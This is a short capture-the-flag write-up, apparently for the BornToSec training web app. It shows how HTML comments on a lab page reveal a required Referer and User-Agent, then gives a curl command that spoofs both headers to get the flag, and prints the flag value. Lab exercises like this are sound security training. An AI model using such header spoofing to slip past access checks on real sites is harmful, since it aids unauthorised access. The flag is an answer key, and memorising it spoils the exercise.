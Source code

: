 # CSRF

In the bottom of the home page we can see a link '© BornToSec', click here.

After this in the source code of the page, we can see some comments:

```html
<!-- You must come from : "https://www.nsa.gov/". -->
<!-- Let's use this browser : "ft_bornToSec". It will help you a lot. -->
```

With this informations we understand we need to change the referer and the user agent with the informations in the comments.

```
curl -H "Referer: https://www.nsa.gov/" \
-H "User-Agent: ft_bornToSec" \
http://192.168.64.3/\?page\=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f \
2> /dev/null | grep -i Flag
```

This request result to this

```html
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```
